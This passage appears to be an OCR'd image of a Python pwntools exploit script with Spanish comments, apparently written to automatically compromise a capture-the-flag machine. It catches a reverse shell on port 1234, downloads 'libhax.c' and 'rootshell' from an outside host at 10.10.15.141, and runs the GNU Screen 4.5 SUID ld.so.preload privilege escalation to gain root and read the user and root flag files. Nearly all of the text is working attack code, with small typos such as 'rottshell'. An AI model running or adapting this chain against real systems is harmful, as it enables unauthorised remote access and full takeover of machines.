 ```python3
# Metemos un hilo 
        try:
                threading.Thread(target=makeRequest, args=("password1",)).start()
        except Exception as e:
                log.error(str(e))
# Varibles de texto
        p1 = log.progress("Pwn")
        p1.status("Ganando Acceso al sistema")
# variable a la escucha por el puerto indicado 1234 esperando una conexion entrante
        shell = listen(lport, timeout=20).wait_for_connection()
# Bucle if la variable shell no tiene conexion fail
        if shell.sock is None:
                p1.failure("No se ha podido ganar acceso, paquete")
# Cualquier otra cosa Succes
        else:
                p1.success("Yuhu!!, se ha entrablado la conexion ahi to pro")

        time.sleep(2)
# Privesc atraves de el binario SUID SCREEN 4.5
        shell.sendline("cd /tmp")
        shell.sendline("wget http://10.10.15.141/libhax.c")
        shell.sendline("wget http://10.10.15.141/rootshell")
        shell.sendlines("chmod +x libhax.c rottshell")
        shell.sendline("cd /etc")
        shell.sendline("umask 000")
        shell.sendline("screen -D -m -L ld.so.preload echo -ne  '\x0a/tmp/libhax.so'")
        shell.sendline("screen -ls")
        shell.sendline("/tmp/rootshell")
        shell.sendline("'user:' | cat /home/shelby/user.txt")
        shell.sendline("'root:' | cat /root/root.txt")
# llamamos a la variable shell final para que nos lance la shell 
        shell.interactive()




```

